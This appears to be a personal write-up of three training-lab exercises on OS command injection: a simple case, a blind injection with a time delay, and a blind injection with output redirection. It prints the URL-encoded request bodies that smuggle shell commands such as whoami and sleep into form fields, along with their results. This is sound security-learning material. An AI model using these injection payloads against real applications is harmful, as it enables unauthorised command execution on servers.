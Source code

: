 # OS Command Injection

## :material-gauge-empty: OS command injection, simple case

!!! question
    This lab contains an OS command injection vulnerability in the product stock checker.

    The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

    To solve the lab, execute the `whoami` command to determine the name of the current user.

This application issues a `POST` reequest to the `/product/stock` endpoint with the following expected payload: `productId=1&storeId=1`. With valid values, you receive something like `62` as the payload of the response.

The instructions and page make it appear as though you simply change the values to `echo test` or something like `productId=& whoami &storeId=1` but it wasn't quite that simle for me. Instead, I had to play around a bit with URL encoding, and ended up with the following:

```text
productId=%26%20echo%20george%20%26&storeId=whoami
```

Which gave me a return like this:

```text
george
peter-tVfyfI
```

I'm *certain* there are other variations that will produce the right results. 

## :material-gauge: Blind OS command injection with time delays

!!! question
    This lab contains a blind OS command injection vulnerability in the feedback function.

    The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

    To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

I modified the request as follows (`& sleep 10 &`):

```text
csrf=VWek8OQ95kgxwPflHuYs4ECgWNDFwhYx&name=%26%20sleep%2010%20%26&email=%26%20sleep%2010%20%26&subject=%26%20sleep%2010%20%26&message=%26%20sleep%2010%20%26
```

This worked, but it bugs be a little that I had to replace all of the params with the injected command. I did some additional testing, and it looks like (for some unknown reason) *both* the `email` and `subject` params need to have the sleep command, otherwise it simply returns immediately.


## :material-gauge: Blind OS command injection with output redirection

!!! question
    This lab contains a blind OS command injection vulnerability in the feedback function.

    The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

    `/var/www/images/`

    The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

    To solve the lab, execute the `whoami` command and retrieve the output.

To solve this challenge, I crafted a string: `& whoami > /var/www/images/bubba &` and then fully URL-encoded it as `%26%20whoami%20%3E%20%2fvar%2fwww%2fimages%2fbubba%20%26`. 

Using the information from the prior challenge, I substituted my command payload in both the `email` and `subject` fields as such:

```text
csrf=S8sIaTUHU6dSoL5PmQ8UhXVy4ud17qLa&name=george&email=%26%20whoami%20%3E%20%2fvar%2fwww%2fimages%2fbubba%20%26&subject=%26%20whoami%20%3E%20%2fvar%2fwww%2fimages%2fbubba%20%26&message=test
```

And submitted it. I then found an image-returning request and modified the path to my newly-created file: `GET /image?filename=bubba HTTP/1.1` and I was presented with the currently running user: `peter-rYqzDj`


